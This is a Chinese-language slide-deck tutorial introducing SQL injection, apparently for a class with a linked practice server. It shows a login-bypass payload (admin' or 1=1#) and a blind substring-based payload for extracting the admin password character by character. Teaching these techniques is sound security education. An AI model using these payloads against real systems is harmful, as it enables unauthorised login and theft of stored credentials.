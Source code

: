 
# SQL Injection

---

## 這啥

--

一種故意塞奇怪的內容讓別人的程式講錯話的手法

---

✋🌰

--

有聽過**棒球隊棒球隊**這個相聲橋段嘛

--

- 誰在一壘
- 什麼在二壘
- 三壘我不知道

--

當某些常用有特殊意義的字詞

混進句子裡的時候會造成的誤解

--

尤其是當你直接把別人給的資料

無條件加進 SQL query 的時候

---

好比說你要登入

你輸入了 帳號: admin 密碼: meow

假設拼出來的 SQL 指令長這樣

```sql
SELECT * from Users
  where user = 'admin' and password = md5('meow');
```

--

密碼不對啥都沒有

![](https://i.imgur.com/WOeMBJM.png)

---

字串是用單引號包的呢

那在參數裡加個 `'` 好了

帳號: `admin'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin'' and password = md5('meow');
```

--

上色爆炸啦

這行拿去跑會噴錯誤

![](https://i.imgur.com/nIMeDb6.png)

---

那如果說我們故意把他湊成有意義的呢

--

帳號: `admin' or 1=1#'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or 1=1#'' and password = md5('meow');
```

> 上面那個是語法 highlight 的問題 `#` 後面應該會是註解色

--

OOPS

![](https://i.imgur.com/QT9mOZK.png)

--

這是最基本的邏輯注入

讓他倒出全部的資料

然後也因為有選出東西，所以就可以跳過登入了

--

[試打看看](http://140.134.208.86:13001)

---

---

---

或者可以偷看某個東西對不對

像是你只知道成不成功的時候

--

而 SQL 是允許把一個 query 的結果當成另一個 query 或是函式的參數



--

帳號: `admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'#'`

密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'--' and password = md5('meow');
```

--

如果過了

代表 `admin` 的 `password` 那一欄

第一個字元是 `a` 或 `A`

> 雖然很顯然不是 (看上一個)

---
